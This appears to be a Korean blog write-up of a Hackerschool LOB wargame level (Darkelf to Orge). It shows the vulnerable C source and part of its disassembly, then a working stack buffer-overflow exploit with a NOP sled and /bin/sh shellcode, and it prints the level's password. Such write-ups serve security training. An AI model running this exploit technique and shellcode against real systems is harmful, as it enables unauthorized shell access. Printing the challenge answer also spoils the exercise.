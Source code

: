 ```yaml
---
date: '2022-10-17'
before : '2022-10-16'
after : '2022-10-18'
title: 'FTZ LOB LEVEL 7'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 얼마든지 NOP SLED로 풀이가 가능했다.

### 1. Level 7 : Darkelf -> Orge

이번 문제는 코드가 조금 특이하다. 확인해보자
```

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
다른 코드는 저번과 똑같은데, strlen(argv[0]) != 77라는 조건문이 생겼다. argv[0]? 매개변수는 argv[1]부터 시작인데?


**그렇다, 파일 이름이 0번째 매개변수이다. 따라서 우리는 파일 이름을 75글자로 바꿔줘야 한다(./가 붙으니 2바이트는 채워진다.)**


파일 이름을 바꾸는 법은 간단하니 넘어가고, 나머지 풀이과정은 전 문제와 동일하다. 어셈블리 코드 : 
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048690
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048526 <main+38>:    mov    %edx,DWORD PTR [%eax]
0x8048528 <main+40>:    push   %edx
0x8048529 <main+41>:    call   0x80483f0 <strlen>
0x804852e <main+46>:    add    %esp,4
0x8048531 <main+49>:    mov    %eax,%eax
0x8048533 <main+51>:    cmp    %eax,77
0x8048536 <main+54>:    je     0x8048550 <main+80>
0x8048538 <main+56>:    push   0x804869c
0x804853d <main+61>:    call   0x8048410 <printf>
0x8048542 <main+66>:    add    %esp,4
0x8048545 <main+69>:    push   0
0x8048547 <main+71>:    call   0x8048420 <exit>
0x804854c <main+76>:    add    %esp,4
0x804854f <main+79>:    nop
0x8048550 <main+80>:    nop
0x8048551 <main+81>:    mov    DWORD PTR [%ebp-44],0x0
0x8048558 <main+88>:    mov    %eax,DWORD PTR [%ebp-44]
0x804855b <main+91>:    lea    %edx,[%eax*4]
...생략
```
ebp-44이니 더미 44개 + 리턴주소 4바이트로 대략적인 두 번째 매개변수의 주소를 리턴으로 넘겨줘 NOP SLED로 쉘코드를 실행시킨다.


익스플로잇 : 
```
./`python -c 'print "A"*75'` `python -c 'print "A"*44+"\x98\xfb\xff\xbf"'` `python -c 'print "\x90"*100 + "\x90"*100+"\x90"*150+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

비밀번호 : timewalker

 ---
## Source

- 해커스쿨 FTZ
- Me!
